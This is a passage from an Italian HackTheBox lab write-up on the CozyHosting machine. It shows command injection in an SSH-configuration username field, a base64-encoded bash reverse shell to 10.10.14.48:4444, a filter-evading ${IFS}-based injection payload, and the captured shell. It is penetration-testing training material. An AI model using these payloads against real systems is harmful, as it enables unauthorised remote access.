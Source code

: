 # # GAINING AN INITIAL FOOTHOLD 

Nella Dashboard, incontriamo una funzione relativa alla configurazione delle connessioni SSH.

Quando esaminiamo Burpsuite, notiamo un reindirizzamento a un'altra posizione, in particolare all'interno del messaggio di errore che menziona "Connect Time Out".![](Hackthebox-OSCP-Prepartion/zzz_rev/attachments/cozy8.png)Se lasciamo vuota la sezione "Username", osserviamo un errore relativo a un comando SSH, che indica una potenziale vulnerabilità di Command Injection in questa sezione.![](Hackthebox-OSCP-Prepartion/zzz_rev/attachments/cozy9.png)

Proviamo una Command Injection, utilizzando questo payload ed lo encodiamo in URL
```bash
┌──(root㉿kali)-[/home/kali]
└─# echo 'bash -i >& /dev/tcp/10.10.14.48/4444 0>&1' | base64 -w 0
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC40OC80NDQ0IDA+JjEK
```

Ci mettiamo in ascolto con nc 

```shell-session
┌──(root㉿kali)-[/home/kali]
└─# nc -lvnp 4444
listening on [any] 4444 ...
```

Inseriamo il payload nel campo username nella richiesta di burp, ma non funziona.
modifichiamo il payload

```shell-session
;echo${IFS%??}"YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC40OC80NDQ0IDA+JjEK"${IFS%??}|${IFS%??}base64${IFS%??}-d${IFS%??}|${IFS%??}bash;
```

>[!note]
> ${IFS} è l'equivalente di uno spazio bianco.

Inviamo questo payload sempre nel parametro username ma prima lo codifichiamo in URL, possiamo farlo in tramite [Urlencode](https://www.urlencoder.org) che tramite burp stesso 

![](Hackthebox-OSCP-Prepartion/zzz_rev/attachments/cozy12.webp)
Eseguiamo e abbiamo la nostra shell

```shell-session
┌──(root㉿kali)-[/home/kali]
└─# nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.48] from (UNKNOWN) [10.10.11.230] 36600
bash: cannot set terminal process group (1063): Inappropriate ioctl for device
bash: no job control in this shell
app@cozyhosting:/app$
```

# PRIVESC

## app --> josh
